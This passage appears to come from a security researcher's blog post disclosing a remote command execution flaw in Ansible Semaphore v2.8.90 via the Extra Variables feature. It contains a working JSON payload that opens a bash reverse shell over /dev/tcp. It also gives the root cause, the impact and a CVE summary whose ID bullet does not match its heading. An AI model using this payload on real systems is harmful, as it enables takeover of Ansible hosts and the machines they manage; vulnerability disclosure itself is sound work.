 ![lookup url](/images/oob.png)

### Reverse shell

Ansible provides several variables that are always available and can be overridden using the --extra-vars parameter.

- ansible_user
- ansible_password
- ansible_ssh_private_key_file
- ansible_become_pass
- ansible_port
- ansible_host
- ansible_python_interpreter
- ansible_connection
- ansible_ssh_common_args
- ansible_sudo_pass

```json
{
  "ansible_user": "{{ lookup('ansible.builtin.pipe', \"bash -c 'exec bash -i &>/dev/tcp/127.0.0.1/1337 <&1'\") }}"
}
```

{{< youtube pKvu7tEOoS8 >}}

The vulnerability is present due to two reasons:

- `ansible-playbook` permits code execution by design through the `extra-vars` flag, and this doesn’t appear to be documented anywhere (please correct me if I'm mistaken).
- Ansible Semaphore takes input directly from the user and feeds it to the args parameter in `exec.Command(command, args...)` without applying any kind of sanitization or filtering.

By taking advantage of this vulnerability, a malicious user could escalate privileges, gain control of the host, and potentially all other machines managed by Ansible Semaphore.

## Final Thoughts

The utilization of `exec.Command` for invoking external binaries can provide powerful functionality, but it also exposes potential security risks if not handled with care, as seen in the case of Ansible Semaphore with ansible-playbook. It is imperative that developers consider security implications. Input validation and sanitization are critical to mitigate risks such as command injection vulnerabilities. Furthermore, it is advisable to be familiar with the documentation and understand the nature of the programs being integrated.

## CVE Report (CVE-2023-39059)

- **CVE ID**: `CVE-2023-3905`
- **Product**: [ansible semaphore](https://github.com/ansible-semaphore/semaphore)
- **Affected version**: [ansible semaphore v2.8.90](https://github.com/ansible-semaphore/semaphore/releases/tag/v2.8.90)
- **Description**: An issue in ansible `semaphore v.2.8.90` allows a remote attacker to execute arbitrary code via a crafted payload to the extra variables parameter.
- **Vulnerability Type**: Remote Command Execution (RCE)
- **Root Cause**: Ansible Semaphore includes a feature called "Extra Variables." This feature can be accessed at `https://<semaphore-endpoint>/project/id/environment` and is directly associated with the ansible-playbook `--extra-vars` flag.
- **Impact**: The `--extra-vars` parameter can be abused by a malicious user with low privileges to achieve Remote Command Execution (RCE) and read files and configurations, perform Server Side Request Forgery (SSRF), execute commands, and establish a reverse shell on the ansible server.

Happy hacking
